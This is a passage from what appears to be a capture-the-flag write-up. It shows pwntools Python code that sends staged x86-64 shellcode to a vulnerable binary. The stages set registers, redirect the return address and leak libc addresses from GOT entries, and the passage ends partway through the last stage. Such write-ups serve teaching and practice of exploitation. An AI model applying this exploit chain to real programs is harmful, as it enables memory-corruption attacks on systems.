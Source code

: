```py
print len(payload)

pause()

p.send(payload)

log.info("Payload 2: Prepare rdx=0xff")
payload = ""
payload += asm("lea rax, [rdx+18]")
payload += asm("xor rdx, rdx")
payload += asm("dec dl")
payload += asm("ret")

print len(payload)
pause()

p.send(payload)

log.info("Payload 3: Change return addr to skip setting rdx")
payload = ""
payload += asm("push 0x40073e")
payload += asm("ret")

print len(payload)
pause()

p.send(payload)
```

*Working but so bad*

#### Actual shellcode
As if the previous part was not long enough,

```py
log.info("Payload 4: Leak libc addreses")

puts_libc_got = 0x601018
mmap_libc_got = 0x601020

# print libc@got
payload = ""
payload += asm("mov r8, rax")
payload += asm("xor rdi, rdi")
payload += asm("inc rdi")
payload += asm("mov rsi, " + hex(puts_libc_got))
payload += asm("mov rdx, 8")
payload += asm("xor rax, rax")
payload += asm("inc rax")
payload += asm("syscall")

# print mmap@got
payload += asm("xor rdi, rdi")
payload += asm("inc rdi")
payload += asm("mov rsi, " + hex(mmap_libc_got))
payload += asm("mov rdx, 8")
payload += asm("xor rax, rax")
payload += asm("inc rax")
payload += asm("syscall")

# go back to reading more shellcode for the next payload
payload += asm("mov rsi, r8")
payload += asm("sub rsi, 18")
payload += asm("mov rdx, 0x100")
```